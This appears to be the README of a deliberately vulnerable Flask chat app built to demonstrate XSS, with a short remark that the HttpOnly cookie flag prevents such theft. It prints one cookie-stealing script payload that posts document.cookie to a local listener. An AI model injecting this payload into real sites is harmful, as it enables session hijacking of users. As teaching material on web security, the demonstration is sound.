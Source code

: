 # **Vulnerable Chat WebApp with Flask**

Building an vulnerable chat web app with Flask, socket programming to demostrate XSS attacks.


Attacker's injection: `<script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>`

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes the cookie unavailable to scripting languages like JavaScript.

Give me a star if this has helped you in anyway!
